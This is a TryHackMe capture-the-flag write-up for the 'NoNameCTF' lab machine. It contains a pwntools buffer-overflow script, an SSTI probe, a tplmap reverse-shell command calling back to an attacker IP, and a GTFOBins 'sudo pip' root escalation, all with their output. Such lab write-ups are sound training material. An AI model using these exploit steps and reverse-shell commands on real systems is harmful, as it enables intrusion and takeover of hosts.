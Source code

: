 # THM NoNameCTF Writeup
## Enumeration
```
nmap -sCV -oN nmap/NoNameCTF <ip>
```
### Result
```
Nmap scan report for 10.10.107.235
Host is up (0.36s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE    SERVICE       VERSION
22/tcp    open     ssh           OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:57:3f:cc:86:39:04:3b:f0:e6:46:bf:72:51:64:0b (RSA)
|   256 81:05:75:ad:78:83:62:b2:06:41:5b:e5:a5:a9:82:4d (ECDSA)
|_  256 0f:8d:0e:19:e9:c7:cc:14:39:e9:34:60:5c:f7:aa:fe (ED25519)
80/tcp    open     http          Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
146/tcp   filtered iso-tp0
2222/tcp  open     EtherNetIP-1?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, NULL, RPCCheck, SSLSessionReq: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|   GetRequest, HTTPOptions, Help, RTSPRequest: 
|     Welcome to the NoNameCTF!
|     Choose an action:
|     regiser: 1
|     login: 2
|     get_secret_directory: 3
|     store_your_buffer: 4
|     Wrong option
|_    Good bye
6666/tcp  filtered irc
8652/tcp  filtered unknown
9090/tcp  open     http          Tornado httpd 6.0.3
|_http-title: Site doesn't have a title (text/plain).
|_http-server-header: TornadoServer/6.0.3
49175/tcp filtered unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port2222-TCP:V=7.92%I=7%D=11/8%Time=618932E7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,7B,"Welcome\x20to\x20the\x20NoNameCTF!\r\nChoose\x20an\x20action:\r\
<SNIP>
\n>\x20login:\x202\r\n>\x20get_secret_directory:\x203\r\n>\x20store
SF:_your_buffer:\x204\r\n");

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

We got 4 open ports, 22,80,2222,9090. Let's take a look at it one by one. First, nothing special about port 22. Next, port 80 is running website, must be there for a reason. Third, Port 2222 looks like running a unknown service, leave it first. Last, port 9090 running website using Tornado with version 6.0.3.

### Port 80
Looking at port 80 website's source code, we found a potential hint. Looks like hinting about buffer overflow. 

![3f64f75b1b6315cc94044f566a13328e.png](_resources/3f64f75b1b6315cc94044f566a13328e.png)

### Port 2222
Looking at port 2222, we can try connect to it via netcat:
```
nc <ip> 2222
```
Looks like it is providing some services. The **get_secret_directory** looks interesting but it was prompting us to login before using that service. We will come back to this later.

![c54ca29dcc6d143e6046d2661b512fe7.png](_resources/c54ca29dcc6d143e6046d2661b512fe7.png)

### Port 9090
Upon browsing to port 9090 website, we've encountered an error.

![6667948cfd36e9a2914a933b392fe3b9.png](_resources/6667948cfd36e9a2914a933b392fe3b9.png)

For now we have gathered some initial information about each open ports. Let's do a quick summarize, port 80 source code indicating we might need to do buffer overflow, since buffer overflow less likely will be happen in websites, let's now focus on port 2222.

### Exploiting port 2222
Based on the port 80 source code hint given, we can guess that vulnerable point was **store_your_buffer** functionality and the amount of buffer to overflow it most likely will be greater than 1000. After interacting a while with it, the flow to exploit it to get secret directory probably is:
```
Register an account -> Login -> Buffer Overflow on store_your_buffer -> get_secret_directory
```

I have wrote a script to automate this process:

```
#!/usr/bin/env python3

from pwn import *
import argparse
import pdb

parser = argparse.ArgumentParser(description="BOF Exploit")
parser.add_argument("host", help="The host IP address")
parser.add_argument("port", help="The host port")
args=parser.parse_args()

# Connection
target = remote(args.host, args.port)

# Registration
print("[+] Default hardcoded credential: anonymous:anonymous123")
print("[+] Registering using default hardcoded credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'1')
target.recvuntil(b'Enter an username:')
target.sendline(b'anonymous')
target.recvuntil(b'Enter a password:')
target.sendline(b'anonymous123')

# Login
print("[+] Loging using registered credential")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'2')
target.recvuntil(b'Username:')
target.sendline(b'anonymous')
target.recvuntil(b'Password:')
target.sendline(b'anonymous123')

# BOF
print("[+] Buffer Overflowing 'store_your_buffer' functionality")
target.recvuntil(b"store_your_buffer: 4")
target.sendline(b'4')
target.recvuntil(b'Enter your buffer:')
buffer = b"A"*1500
target.sendline(buffer)

# Get secret
print("[+] Getting secret directory")
target.recvuntil(b'store_your_buffer: 4\r\n')
target.sendline(b'3')
print("[*] Success !!!\n")
print(target.recvline().decode("utf-8"))
```

Basically the script follows the flow i mentioned above and overflow the vulnerable functionality with 1500 bytes. We just need to supply the machine IP and port to execute this exploit.

```
$ python exploit.py 10.10.107.235 2222
[+] Opening connection to 10.10.107.235 on port 2222: Done
[+] Default hardcoded credential: anonymous:anonymous123
[+] Registering using default hardcoded credential
[+] Loging using registered credential
[+] Buffer Overflowing 'store_your_buffer' functionality
[+] Getting secret directory
[*] Success !!!

My secret in the port 9090 is: /xxxxx

[*] Closed connection to 10.10.107.235 port 2222
```

Yay ! Now we got the secret directory.
***
## Initial Foothold
Let's browse to port 9090 website with the secret directory:

![6ede18c18e56f998156807e30828299c.png](_resources/6ede18c18e56f998156807e30828299c.png)

Nothing interesting, how about the source code?

![32599adf76a4a76c570d55a65701de96.png](_resources/32599adf76a4a76c570d55a65701de96.png)

Yes ! We got a parameter hidden in source code. After some testing, looks like it was vulnerable to Server Side Template Injection (SSTI):
```
http://10.10.107.235:9090/xxxxx/?hackme={{7*7}}
```
![b0ddea2d264559572693e4cc6587e728.png](_resources/b0ddea2d264559572693e4cc6587e728.png)

Without further ado, let's spawn a reverse shell using **tplmap**:
#### Notes: If you have problem installing tplmap, take this: [solution](https://blog.csdn.net/weixin_46041615/article/details/121111050), you're welcome
```
python2 tplmap.py -u http://10.10.107.235:9090/xxxxx/?hackme= --reverse-shell 10.13.28.126 4567
```

Setup netcat to listen on certain port:
```
nc -lvnp 4567
```

Execute the tplmap's command and BOOM ! Reverse shell achieved !

![ac8ecc09a421a28a018da587f359cb13.png](_resources/ac8ecc09a421a28a018da587f359cb13.png)
***
## Privilege Escalation
> Classic <3 - GTFOBins
```
sudo -l
```
![abacfee0f5d6a41063588edd829a7efb.png](_resources/abacfee0f5d6a41063588edd829a7efb.png)

### Exploit 
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo /usr/bin/pip install $TF
```

### Rooted !
![1ca5eba662366c1f2fcc22fbe8148980.png](_resources/1ca5eba662366c1f2fcc22fbe8148980.png)


To whoever reading this till here, thank you so much and have a nice day !
